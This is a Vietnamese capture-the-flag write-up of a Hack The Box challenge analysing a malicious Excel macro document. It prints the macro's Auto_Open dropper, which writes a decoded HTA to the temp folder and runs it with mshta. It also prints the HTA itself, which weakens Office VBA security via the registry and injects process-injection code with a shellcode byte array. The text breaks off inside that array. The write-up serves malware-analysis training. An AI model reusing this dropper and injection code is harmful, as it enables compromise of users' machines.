




### Description 
> This document came in as an email attachment. Our SOC tells us that they think there were some errors in it that caused it not to execute correctly. Can you figure out what the command and control mechanism would have been had it worked?

### Link challenge

> https://app.hackthebox.com/challenges/oBfsC4t10n

### Solution 
- Đầu tiên challenge này cho ta 1 tệp html, mở lên thì thấy 1 nút tải xuống file 
- 
- Sau khi nhấn nút Download, 1 file macro được tải xuống, dựa trên kinh nghiệm. Mình check bằng olevba trước 

```
Private Const clOneMask = 16515072
Private Const clTwoMask = 258048
Private Const clThreeMask = 4032
Private Const clFourMask = 63

Private Const clHighMask = 16711680
Private Const clMidMask = 65280
Private Const clLowMask = 255

Private Const cl2Exp18 = 262144
Private Const cl2Exp12 = 4096
Private Const cl2Exp6 = 64
Private Const cl2Exp8 = 256
Private Const cl2Exp16 = 65536

Public Function LeOyoqoF(sString As String) As String

    Dim bTrans(63) As Byte, lPowers8(255) As Long, lPowers16(255) As Long, bOut() As Byte, bIn() As Byte
    Dim lChar As Long, lTrip As Long, iPad As Integer, lLen As Long, lTemp As Long, lPos As Long, lOutSize As Long

    For lTemp = 0 To 63
        Select Case lTemp
            Case 0 To 25
                bTrans(lTemp) = 65 + lTemp
            Case 26 To 51
                bTrans(lTemp) = 71 + lTemp
            Case 52 To 61
                bTrans(lTemp) = lTemp - 4
            Case 62
                bTrans(lTemp) = 43
            Case 63
                bTrans(lTemp) = 47
        End Select
    Next lTemp

    For lTemp = 0 To 255
        lPowers8(lTemp) = lTemp * cl2Exp8
        lPowers16(lTemp) = lTemp * cl2Exp16
    Next lTemp

    iPad = Len(sString) Mod 3
    If iPad Then
        iPad = 3 - iPad
        sString = sString & String(iPad, Chr(0))
    End If

    bIn = StrConv(sString, vbFromUnicode)
    lLen = ((UBound(bIn) + 1) \ 3) * 4
    lTemp = lLen \ 72
    lOutSize = ((lTemp * 2) + lLen) - 1
    ReDim bOut(lOutSize)

    lLen = 0

    For lChar = LBound(bIn) To UBound(bIn) Step 3
        lTrip = lPowers16(bIn(lChar)) + lPowers8(bIn(lChar + 1)) + bIn(lChar + 2)
        lTemp = lTrip And clOneMask
        bOut(lPos) = bTrans(lTemp \ cl2Exp18)
        lTemp = lTrip And clTwoMask
        bOut(lPos + 1) = bTrans(lTemp \ cl2Exp12)
        lTemp = lTrip And clThreeMask
        bOut(lPos + 2) = bTrans(lTemp \ cl2Exp6)
        bOut(lPos + 3) = bTrans(lTrip And clFourMask)
        If lLen = 68 Then
            bOut(lPos + 4) = 13
            bOut(lPos + 5) = 10
            lLen = 0
            lPos = lPos + 6
        Else
            lLen = lLen + 4
            lPos = lPos + 4
        End If
    Next lChar

    If bOut(lOutSize) = 10 Then lOutSize = lOutSize - 2

    If iPad = 1 Then
        bOut(lOutSize) = 61
    ElseIf iPad = 2 Then
        bOut(lOutSize) = 61
        bOut(lOutSize - 1) = 61
    End If

    LeOyoqoF = StrConv(bOut, vbUnicode)

End Function

Public Function hdYJNJmt(sString As String) As String

    Dim bOut() As Byte, bIn() As Byte, bTrans(255) As Byte, lPowers6(63) As Long, lPowers12(63) As Long
    Dim lPowers18(63) As Long, lQuad As Long, iPad As Integer, lChar As Long, lPos As Long, sOut As String
    Dim lTemp As Long

    sString = Replace(sString, vbCr, vbNullString)
    sString = Replace(sString, vbLf, vbNullString)

    lTemp = Len(sString) Mod 4
    If lTemp Then
        Call Err.Raise(vbObjectError, "", "")
    End If

    If InStrRev(sString, "==") Then
        iPad = 2
    ElseIf InStrRev(sString, "=") Then
        iPad = 1
    End If

    For lTemp = 0 To 255
        Select Case lTemp
            Case 65 To 90
                bTrans(lTemp) = lTemp - 65
            Case 97 To 122
                bTrans(lTemp) = lTemp - 71
            Case 48 To 57
                bTrans(lTemp) = lTemp + 4
            Case 43
                bTrans(lTemp) = 62
            Case 47
                bTrans(lTemp) = 63
        End Select
    Next lTemp

    For lTemp = 0 To 63
        lPowers6(lTemp) = lTemp * cl2Exp6
        lPowers12(lTemp) = lTemp * cl2Exp12
        lPowers18(lTemp) = lTemp * cl2Exp18
    Next lTemp

    bIn = StrConv(sString, vbFromUnicode)
    ReDim bOut((((UBound(bIn) + 1) \ 4) * 3) - 1)

    For lChar = 0 To UBound(bIn) Step 4
        lQuad = lPowers18(bTrans(bIn(lChar))) + lPowers12(bTrans(bIn(lChar + 1))) + _
                lPowers6(bTrans(bIn(lChar + 2))) + bTrans(bIn(lChar + 3))
        lTemp = lQuad And clHighMask
        bOut(lPos) = lTemp \ cl2Exp16
        lTemp = lQuad And clMidMask
        bOut(lPos + 1) = lTemp \ cl2Exp8
        bOut(lPos + 2) = lQuad And clLowMask
        lPos = lPos + 3
    Next lChar

    sOut = StrConv(bOut, vbUnicode)
    If iPad Then sOut = Left$(sOut, Len(sOut) - iPad)
    hdYJNJmt = sOut

End Function

Sub Auto_Open()
    Dim fHdswUyK, GgyYKuJh
    Application.Goto ("JLprrpFr")
    GgyYKuJh = Environ("temp") & "\LwTHLrGh.hta"
    
    Open GgyYKuJh For Output As #1
    Write #1, hdYJNJmt(ActiveSheet.Shapes(2).AlternativeText & UZdcUQeJ.yTJtzjKX & Selection)
    Close #1
    
    fHdswUyK = "msh" & "ta " & GgyYKuJh
    x = Shell(fHdswUyK, 1)
End Sub


```

- Kiểm tra kĩ hàm Auto_Open() sẽ thấy được 1 vài điều thú vị
```
Sub Auto_Open()
    Dim fHdswUyK, GgyYKuJh
    Application.Goto ("JLprrpFr")
    GgyYKuJh = Environ("temp") & "\LwTHLrGh.hta"
    
    Open GgyYKuJh For Output As #1
    Write #1, hdYJNJmt(ActiveSheet.Shapes(2).AlternativeText & UZdcUQeJ.yTJtzjKX & Selection)
    Close #1
    
    fHdswUyK = "msh" & "ta " & GgyYKuJh
    x = Shell(fHdswUyK, 1)
End Sub
```
- `GgyYKuJh = Environ("temp") & "\LwTHLrGh.hta"` : Tạo đường dẫn tới tệp tạm thời: GgyYKuJh được gán với đường dẫn đến một tệp có tên LwTHLrGh.hta nằm trong thư mục tạm thời của hệ thống.

- `Write #1, hdYJNJmt(ActiveSheet.Shapes(2).AlternativeText & UZdcUQeJ.yTJtzjKX & Selection)` : Ghi nội dung vào tệp: Tệp LwTHLrGh.hta được mở để ghi (Open GgyYKuJh For Output As #1). Nội dung sẽ được ghi vào tệp này bằng cách kết hợp các thông tin từ thuộc tính AlternativeText của một hình trên trang tính, cùng với một số chuỗi khác được định nghĩa bởi UZdcUQeJ.yTJtzjKX và Selection.

- `fHdswUyK = "msh" & "ta " & GgyYKuJhChạy` và `x = Shell(fHdswUyK, 1)` tệp HTA: Sau khi tệp được tạo và đóng, lệnh msh & ta (liên kết thành msh ta) được tạo và chạy bằng cách sử dụng hàm Shell, để thực thi tệp HTA vừa được tạo.

- Load lên VirusTotal ta có thấy được file này được thực thi thông qua 
- 
- Có thể thấy được file được thực thi thông qua `mshta.exe`
- Mình sẽ mở 1 máy ảo windows để phân tích động 
- Sau khi chạy trên máy windows thì check mục Temp trong ổ C với đường dẫn `C:\Users\ADMIN\AppData\Local\Temp` sẽ có 1 file  LwTHLrGh.hta được tạo ra
- 
- Đây là nội dung của têp 
```
"<html><head><script language=""vbscript"">
Dim objExcel, WshShell, RegPath, action, objWorkbook, xlmodule

Set objExcel = CreateObject(""Excel.Application"")
objExcel.Visible = False

Set WshShell = CreateObject(""Wscript.Shell"")

function RegExists(regKey)
        on error resume next
        WshShell.RegRead regKey
        RegExists = (Err.number = 0)
end function

' Get the old AccessVBOM value
RegPath = ""HKEY_CURRENT_USER\Software\Microsoft\Office\"" & objExcel.Version & ""\Excel\Security\AccessVBOM""

if RegExists(RegPath) then
        action = WshShell.RegRead(RegPath)
else
        action = """"
end if

' Weaken the target
WshShell.RegWrite RegPath, 1, ""REG_DWORD""

' Run the macro
Set objWorkbook = objExcel.Workbooks.Add()
Set xlmodule = objWorkbook.VBProject.VBComponents.Add(1)
xlmodule.CodeModule.AddFromString ""Private ""&""Type PRO""&""CESS_INF""&""ORMATION""&Chr(10)&""    hPro""&""cess As ""&""Long""&Chr(10)&""    hThr""&""ead As L""&""ong""&Chr(10)&""    dwPr""&""ocessId ""&""As Long""&Chr(10)&""    dwTh""&""readId A""&""s Long""&Chr(10)& _
""End Type""&Chr(10)&Chr(10)&""Private ""&""Type STA""&""RTUPINFO""&Chr(10)&""    cb A""&""s Long""&Chr(10)&""    lpRe""&""served A""&""s String""&Chr(10)&""    lpDe""&""sktop As""&"" String""&Chr(10)&""    lpTi""&""tle As S""&""tring""& _
Chr(10)&""    dwX ""&""As Long""&Chr(10)&""    dwY ""&""As Long""&Chr(10)&""    dwXS""&""ize As L""&""ong""&Chr(10)&""    dwYS""&""ize As L""&""ong""&Chr(10)&""    dwXC""&""ountChar""&""s As Lon""&""g""&Chr(10)&""    dwYC""&""ountChar""& _
""s As Lon""&""g""&Chr(10)&""    dwFi""&""llAttrib""&""ute As L""&""ong""&Chr(10)&""    dwFl""&""ags As L""&""ong""&Chr(10)&""    wSho""&""wWindow ""&""As Integ""&""er""&Chr(10)&""    cbRe""&""served2 ""&""As Integ""&""er""&Chr(10)&""    lpRe""& _
""served2 ""&""As Long""&Chr(10)&""    hStd""&""Input As""&"" Long""&Chr(10)&""    hStd""&""Output A""&""s Long""&Chr(10)&""    hStd""&""Error As""&"" Long""&Chr(10)&""End Type""&Chr(10)&Chr(10)&Chr(35)&""If VBA7 ""&""Then""&Chr(10)& _
""    Priv""&""ate Decl""&""are PtrS""&""afe Func""&""tion Cre""&""ateStuff""&"" Lib ""&Chr(34)&""kernel32""&Chr(34)&"" Alias ""&Chr(34)&""CreateRe""&""moteThre""&""ad""&Chr(34)&"" ""&Chr(40)&""ByVal hP""&""rocess A""&""s Long""&Chr(44)& _
"" ByVal l""&""pThreadA""&""ttribute""&""s As Lon""&""g""&Chr(44)&"" ByVal d""&""wStackSi""&""ze As Lo""&""ng""&Chr(44)&"" ByVal l""&""pStartAd""&""dress As""&"" LongPtr""&Chr(44)&"" lpParam""&""eter As ""&""Long""&Chr(44)&"" ByVal d""& _
""wCreatio""&""nFlags A""&""s Long""&Chr(44)&"" lpThrea""&""dID As L""&""ong""&Chr(41)&"" As Long""&""Ptr""&Chr(10)&""    Priv""&""ate Decl""&""are PtrS""&""afe Func""&""tion All""&""ocStuff ""&""Lib ""&Chr(34)&""kernel32""&Chr(34)&"" Alias ""& _
Chr(34)&""VirtualA""&""llocEx""&Chr(34)&"" ""&Chr(40)&""ByVal hP""&""rocess A""&""s Long""&Chr(44)&"" ByVal l""&""pAddr As""&"" Long""&Chr(44)&"" ByVal l""&""Size As ""&""Long""&Chr(44)&"" ByVal f""&""lAllocat""&""ionType ""&""As Long""& _
Chr(44)&"" ByVal f""&""lProtect""&"" As Long""&Chr(41)&"" As Long""&""Ptr""&Chr(10)&""    Priv""&""ate Decl""&""are PtrS""&""afe Func""&""tion Wri""&""teStuff ""&""Lib ""&Chr(34)&""kernel32""&Chr(34)&"" Alias ""&Chr(34)&""WritePro""& _
""cessMemo""&""ry""&Chr(34)&"" ""&Chr(40)&""ByVal hP""&""rocess A""&""s Long""&Chr(44)&"" ByVal l""&""Dest As ""&""LongPtr""&Chr(44)&"" ByRef S""&""ource As""&"" Any""&Chr(44)&"" ByVal L""&""ength As""&"" Long""&Chr(44)&"" ByVal L""& _
""engthWro""&""te As Lo""&""ngPtr""&Chr(41)&"" As Long""&""Ptr""&Chr(10)&""    Priv""&""ate Decl""&""are PtrS""&""afe Func""&""tion Run""&""Stuff Li""&""b ""&Chr(34)&""kernel32""&Chr(34)&"" Alias ""&Chr(34)&""CreatePr""&""ocessA""&Chr(34)& _
"" ""&Chr(40)&""ByVal lp""&""Applicat""&""ionName ""&""As Strin""&""g""&Chr(44)&"" ByVal l""&""pCommand""&""Line As ""&""String""&Chr(44)&"" lpProce""&""ssAttrib""&""utes As ""&""Any""&Chr(44)&"" lpThrea""&""dAttribu""&""tes As A""&""ny""& _
Chr(44)&"" ByVal b""&""InheritH""&""andles A""&""s Long""&Chr(44)&"" ByVal d""&""wCreatio""&""nFlags A""&""s Long""&Chr(44)&"" lpEnvir""&""onment A""&""s Any""&Chr(44)&"" ByVal l""&""pCurrent""&""Director""&""y As Str""&""ing""&Chr(44)& _
"" lpStart""&""upInfo A""&""s STARTU""&""PINFO""&Chr(44)&"" lpProce""&""ssInform""&""ation As""&"" PROCESS""&""_INFORMA""&""TION""&Chr(41)&"" As Long""&Chr(10)&Chr(35)&""Else""&Chr(10)&""    Priv""&""ate Decl""&""are Func""&""tion Cre""& _
""ateStuff""&"" Lib ""&Chr(34)&""kernel32""&Chr(34)&"" Alias ""&Chr(34)&""CreateRe""&""moteThre""&""ad""&Chr(34)&"" ""&Chr(40)&""ByVal hP""&""rocess A""&""s Long""&Chr(44)&"" ByVal l""&""pThreadA""&""ttribute""&""s As Lon""&""g""&Chr(44)& _
"" ByVal d""&""wStackSi""&""ze As Lo""&""ng""&Chr(44)&"" ByVal l""&""pStartAd""&""dress As""&"" Long""&Chr(44)&"" lpParam""&""eter As ""&""Long""&Chr(44)&"" ByVal d""&""wCreatio""&""nFlags A""&""s Long""&Chr(44)&"" lpThrea""&""dID As L""& _
""ong""&Chr(41)&"" As Long""&Chr(10)&""    Priv""&""ate Decl""&""are Func""&""tion All""&""ocStuff ""&""Lib ""&Chr(34)&""kernel32""&Chr(34)&"" Alias ""&Chr(34)&""VirtualA""&""llocEx""&Chr(34)&"" ""&Chr(40)&""ByVal hP""&""rocess A""& _
""s Long""&Chr(44)&"" ByVal l""&""pAddr As""&"" Long""&Chr(44)&"" ByVal l""&""Size As ""&""Long""&Chr(44)&"" ByVal f""&""lAllocat""&""ionType ""&""As Long""&Chr(44)&"" ByVal f""&""lProtect""&"" As Long""&Chr(41)&"" As Long""&Chr(10)& _
""    Priv""&""ate Decl""&""are Func""&""tion Wri""&""teStuff ""&""Lib ""&Chr(34)&""kernel32""&Chr(34)&"" Alias ""&Chr(34)&""WritePro""&""cessMemo""&""ry""&Chr(34)&"" ""&Chr(40)&""ByVal hP""&""rocess A""&""s Long""&Chr(44)&"" ByVal l""& _
""Dest As ""&""Long""&Chr(44)&"" ByRef S""&""ource As""&"" Any""&Chr(44)&"" ByVal L""&""ength As""&"" Long""&Chr(44)&"" ByVal L""&""engthWro""&""te As Lo""&""ng""&Chr(41)&"" As Long""&Chr(10)&""    Priv""&""ate Decl""&""are Func""&""tion Run""& _
""Stuff Li""&""b ""&Chr(34)&""kernel32""&Chr(34)&"" Alias ""&Chr(34)&""CreatePr""&""ocessA""&Chr(34)&"" ""&Chr(40)&""ByVal lp""&""Applicat""&""ionName ""&""As Strin""&""g""&Chr(44)&"" ByVal l""&""pCommand""&""Line As ""&""String""&Chr(44)& _
"" lpProce""&""ssAttrib""&""utes As ""&""Any""&Chr(44)&"" lpThrea""&""dAttribu""&""tes As A""&""ny""&Chr(44)&"" ByVal b""&""InheritH""&""andles A""&""s Long""&Chr(44)&"" ByVal d""&""wCreatio""&""nFlags A""&""s Long""&Chr(44)&"" lpEnvir""& _
""onment A""&""s Any""&Chr(44)&"" ByVal l""&""pCurrent""&""Driector""&""y As Str""&""ing""&Chr(44)&"" lpStart""&""upInfo A""&""s STARTU""&""PINFO""&Chr(44)&"" lpProce""&""ssInform""&""ation As""&"" PROCESS""&""_INFORMA""&""TION""&Chr(41)& _
"" As Long""&Chr(10)&Chr(35)&""End If""&Chr(10)&Chr(10)&""Sub Auto""&""_Open""&Chr(40)&Chr(41)&Chr(10)&""    Dim ""&""myByte A""&""s Long""&Chr(44)&"" myArray""&"" As Vari""&""ant""&Chr(44)&"" offset ""&""As Long""&Chr(10)&""    Dim ""& _
""pInfo As""&"" PROCESS""&""_INFORMA""&""TION""&Chr(10)&""    Dim ""&""sInfo As""&"" STARTUP""&""INFO""&Chr(10)&""    Dim ""&""sNull As""&"" String""&Chr(10)&""    Dim ""&""sProc As""&"" String""&Chr(10)&Chr(10)&Chr(35)&""If VBA7 ""& _
""Then""&Chr(10)&""    Dim ""&""rwxpage ""&""As LongP""&""tr""&Chr(44)&"" res As ""&""LongPtr""&Chr(10)&Chr(35)&""Else""&Chr(10)&""    Dim ""&""rwxpage ""&""As Long""&Chr(44)&"" res As ""&""Long""&Chr(10)&Chr(35)&""End If""&Chr(10)& _
""    myAr""&""ray ""&Chr(61)&"" Array""&Chr(40)&Chr(45)&""35""&Chr(44)&Chr(45)&""63""&Chr(44)&Chr(45)&""65""&Chr(44)&""32""&Chr(44)&""86""&Chr(44)&""66""&Chr(44)&""126""&Chr(44)&Chr(45)&""39""&Chr(44)&""116""&Chr(44)&""36""&Chr(44)& _
Chr(45)&""12""&Chr(44)&""91""&Chr(44)&""49""&Chr(44)&Chr(45)&""55""&Chr(44)&Chr(45)&""79""&Chr(44)&""98""&Chr(44)&""49""&Chr(44)&""123""&Chr(44)&""24""&Chr(44)&""3""&Chr(44)&""123""&Chr(44)&""24""&Chr(44)&Chr(45)&""125""&Chr(44)& _ 
Chr(45)&""61""&Chr(44)&""36""&Chr(44)&Chr(45)&""76""&Chr(44)&Chr(45)&""73""&Chr(44)&Chr(45)&""126""&Chr(44)&Chr(45)&""52""&Chr(44)&Chr(45)&""70""&Chr(44)&""56""&Chr(44)&""123""&Chr(44)&""12""&Chr(44)&Chr(45)&""37""&Chr(44)&Chr(45)& _ 
""79""&Chr(44)&Chr(45)&""98""&Chr(44)&""61""&Chr(44)&Chr(45)&""37""&Chr(44)&Chr(45)&""90""&Chr(44)&Chr(45)&""21""&Chr(44)&""109""&Chr(44)&Chr(45)&""21""&Chr(44)&Chr(45)&""83""&Chr(44)&Chr(45)&""66""&Chr(44)&Chr(45)&""127""&Chr(44)& _ 
Chr(45)&""128""&Chr(44)&Chr(45)&""32""&Chr(44)&""42""&Chr(44)&""18""&Chr(44)&Chr(45)&""28""&Chr(44)&""44""&Chr(44)&""92""&Chr(44)&Chr(45)&""109""&Chr(44)&""67""&Chr(44)&""11""&Chr(44)&""83""&Chr(44)&""36""&Chr(44)&Chr(45)&""1""&Chr(44)& _ 
""111""&Chr(44)&Chr(45)&""14""&Chr(44)&Chr(45)&""90""&Chr(44)&""2""&Chr(44)&Chr(45)&""68""&Chr(44)&Chr(45)&""44""&Chr(44)&Chr(45)&""105""&Chr(44)&Chr(45)&""52""&Chr(44)&Chr(45)&""79""&Chr(44)&""21""&Chr(44)&Chr(45)&""48""&Chr(44)& _ 
""49""&Chr(44)&""59""&Chr(44)&""71""&Chr(44)&Chr(45)&""119""&Chr(44)&""62""&Chr(44)&Chr(45)&""18""&Chr(44)&""120""&Chr(44)&Chr(45)&""66""&Chr(44)&""11""&Chr(44)&""51""&Chr(44)&Chr(45)&""14""&Chr(44)&Chr(45)&""116""&Chr(44)&Chr(45)& _ 
""102""&Chr(44)&""51""&Chr(44)&Chr(45)&""25""&Chr(44)&""68""&Chr(44)&Chr(45)&""100""&Chr(44)&""18""&Chr(44)&Chr(45)&""74""&Chr(44)&Chr(45)&""33""&Chr(44)&Chr(45)&""57""&Chr(44)&Chr(45)&""76""&Chr(44)&""56""&Chr(44)&""12""&Chr(44)& _ 
""124""&Chr(44)&Chr(45)&""3""&Chr(44)&""34""&Chr(44)&""81""&Chr(44)&Chr(45)&""71""&Chr(44)&Chr(45)&""73""&Chr(44)&Chr(45)&""39""&Chr(44)&Chr(45)&""95""&Chr(44)&""53""&Chr(44)&""70""&Chr(44)&""8""&Chr(44)&Chr(45)&""8""&Chr(44)&Chr(45)& _ 
""74""&Chr(44)&Chr(45)&""27""&Chr(44)&""117""&Chr(44)&""53""&Chr(44)&""69""&Chr(44)&Chr(45)&""9""&Chr(44)&Chr(45)&""78""&Chr(44)&Chr(45)&""15""&Chr(44)&Chr(45)&""74""&Chr(44)&Chr(45)&""126""&Chr(44)&Chr(45)&""54""&Chr(44)&""2""& _ 
Chr(44)&""74""&Chr(44)&Chr(45)&""107""&Chr(44)&""8""&Chr(44)&""121""&Chr(44)&Chr(45)&""112""&Chr(44)&""16""&Chr(44)&Chr(45)&""117""&Chr(44)&Chr(45)&""39""&Chr(44)&""83""&Chr(44)&Chr(45)&""126""&Chr(44)&""119""&Chr(44)&Chr(45)& _ 
""40""&Chr(44)&Chr(45)&""80""&Chr(44)&""85""&Chr(44)&Chr(45)&""13""&Chr(44)&Chr(45)&""42""&Chr(44)&""125""&Chr(44)&""17""&Chr(44)&""91""&Chr(44)&Chr(45)&""6""&Chr(44)&Chr(45)&""128""&Chr(44)&Chr(45)&""10""&Chr(44)&Chr(45)&""41""& _ 
Chr(44)&""6""&Chr(44)&""8""&Chr(44)&Chr(45)&""7""&Chr(44)&""55""&Chr(44)&Chr(45)&""113""&Chr(44)&""74""&Chr(44)&Chr(45)&""34""&Chr(44)&Chr(45)&""109""&Chr(44)&Chr(45)&""44""&Chr(44)&""9""&Chr(44)&""127""&Chr(44)&Chr(45)&""123""& _ 
Chr(44)&Chr(45)&""80""&Chr(44)&Chr(45)&""4""&Chr(44)&Chr(45)&""128""&Chr(44)&Chr(45)&""43""&Chr(44)&""27""&Chr(44)&Chr(45)&""96""&Chr(44)&""36""&Chr(44)&Chr(45)&""99""&Chr(44)&Chr(45)&""79""&Chr(44)&Chr(45)&""75""&Chr(44)&""84""& _ 
Chr(44)&Chr(45)&""4""&Chr(44)&Chr(45)&""35""&Chr(44)&""122""&Chr(44)&""85""&Chr(44)&Chr(45)&""1""&Chr(44)&""29""&Chr(44)&""21""&Chr(44)&Chr(45)&""18""&Chr(44)&Chr(45)&""116""&Chr(44)&""47""&Chr(44)&Chr(45)&""70""&Chr(44)&""68""& _ 
Chr(44)&""27""&Chr(44)&""3""&Chr(44)&""51""&Chr(44)&""67""&Chr(44)&Chr(45)&""36""&Chr(44)&""100""&Chr(44)&""110""&Chr(44)&""51""&Chr(44)&""114""&Chr(44)&Chr(45)&""101""&Chr(44)&Chr(45)&""111""&Chr(44)&""68""&Chr(44)&""90""&Chr(44)& _ 
""95""&Chr(44)&Chr(45)&""59""&Chr(44)&""20""&Chr(44)&Chr(45)&""12""&Chr(44)&""118""&Chr(44)&""102""&Chr(44)&Chr(45)&""1""&Chr(44)&""4""&Chr(44)&""119""&Chr(44)&Chr(45)&""77""&Chr(44)&""80""&Chr(44)&""85""&Chr(44)&Chr(45)&""41""&Chr(44)& _ 
""108""&Chr(44)&""17""&Chr(44)&""5""&Chr(44)&Chr(45)&""105""&Chr(44)&Chr(45)&""36""&Chr(44)&Chr(45)&""7""&Chr(44)&""79""&Chr(44)&""24""&Chr(44)&""2""&Chr(44)&""25""&Chr(44)&""112""&Chr(44)&Chr(45)&""13""&Chr(44)&""43""&Chr(44)&""50""& _ 
Chr(44)&Chr(45)&""88""&Chr(44)&Chr(45)&""5""&Chr(44)&""83""&Chr(44)&Chr(45)&""61""&Chr(44)&Chr(45)&""46""&Chr(44)&Chr(45)&""115""&Chr(44)&""58""&Chr(44)&Chr(45)&""81""&Chr(44)&""49""&Chr(44)&""21""&Chr(44)&Chr(45)&""46""&Chr(44)& _ 
""66""&Chr(44)&""43""&Chr(44)&Chr(45)&""68""&Chr(44)&""66""&Chr(44)&Chr(45)&""77""&Chr(44)&Chr(45)&""59""&Chr(44)&""81""&Chr(44)&Chr(45)&""76""&Chr(44)&Chr(45)&""125""&Chr(44)&""77""&Chr(44)&Chr(45)&""17""&Chr(44)&Chr(45)&""79""& _ 
Chr(44)&""116""&Chr(44)&""94""&Chr(44)&Chr(45)&""80""&Chr(44)&""2""&Chr(44)&""72""&Chr(44)&Chr(45)&""22""&Chr(44)&""17""&Chr(44)&Chr(45)&""7""&Chr(44)&Chr(45)&""58""&Chr(44)&""33""&Chr(44)&Chr(45)&""14""&Chr(44)&""113""&Chr(44)& _ 
""127""&Chr(44)&""119""&Chr(44)&""127""&Chr(44)&""26""&Chr(44)&""76""&Chr(44)&""37""&Chr(44)&""2""&Chr(44)&Chr(45)&""38""&Chr(44)&Chr(45)&""38""&Chr(44)&""96""&Chr(44)&Chr(45)&""44""&Chr(44)&Chr(45)&""18""&Chr(44)&Chr(45)&""102""& _ 
Chr(44)&Chr(45)&""116""&Chr(44)&Chr(45)&""15""&Chr(44)&Chr(45)&""124""&Chr(44)&Chr(45)&""37""&Chr(44)&""110""&Chr(44)&Chr(45)&""109""&Chr(44)&Chr(45)&""112""&Chr(44)&Chr(45)&""117""&Chr(44)&Chr(45)&""26""&Chr(44)&""97""&Chr(44)& _ 
Chr(45)&""91""&Chr(44)&""42""&Chr(44)&""76""&Chr(44)&Chr(45)&""20""&Chr(44)&""67""&Chr(44)&""70""&Chr(44)&Chr(45)&""94""&Chr(44)&Chr(45)&""72""&Chr(44)&Chr(45)&""36""&Chr(44)&Chr(45)&""1""&Chr(44)&""91""&Chr(44)&Chr(45)&""31""& _ 
Chr(44)&Chr(45)&""105""&Chr(44)&Chr(45)&""98""&Chr(44)&Chr(45)&""92""&Chr(44)&""60""&Chr(44)&Chr(45)&""46""&Chr(44)&Chr(45)&""95""&Chr(44)&""47""&Chr(44)&Chr(45)&""76""&Chr(44)&""34""&Chr(44)&""111""&Chr(44)&Chr(45)&""40""&Chr(44)& _ 
